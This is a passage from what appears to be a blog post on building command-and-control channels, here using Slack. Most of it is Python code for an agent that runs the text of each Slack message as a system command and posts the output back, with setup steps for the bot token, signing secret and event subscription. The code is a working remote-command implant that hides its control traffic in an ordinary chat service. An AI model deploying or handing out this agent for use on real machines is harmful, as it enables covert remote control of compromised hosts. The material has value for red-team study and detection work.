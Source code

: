After that, add the bot to the channel:

![slack](/assets/img/posts/2025-02-23-c2-all-the-things/slack-4.png)

### Agent
```python
import slack
from flask import Flask
from slackeventsapi import SlackEventAdapter
import subprocess
SLACK_TOKEN="REDACTED"
SIGNING_SECRET = "REDACTED"
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
app = Flask(__name__)
slack_event_adapter = SlackEventAdapter(SIGNING_SECRET, '/slack/events', app)
client = slack.WebClient(token=SLACK_TOKEN)
@slack_event_adapter.on('message')
def message(payload):
    event = payload.get('event', {})
    channel_id = event.get('channel')
    text = event.get('text')
    output = Exec(text).decode()
    client.chat_postMessage(channel=channel_id,text=output)
if __name__ == "__main__":
    app.run(debug=True,host="0.0.0.0")
```
Slack bot token adn signing secret must be put in the code in order for it to work.
An event handler is registered and the URL where the code is hosted must be added to event subscription: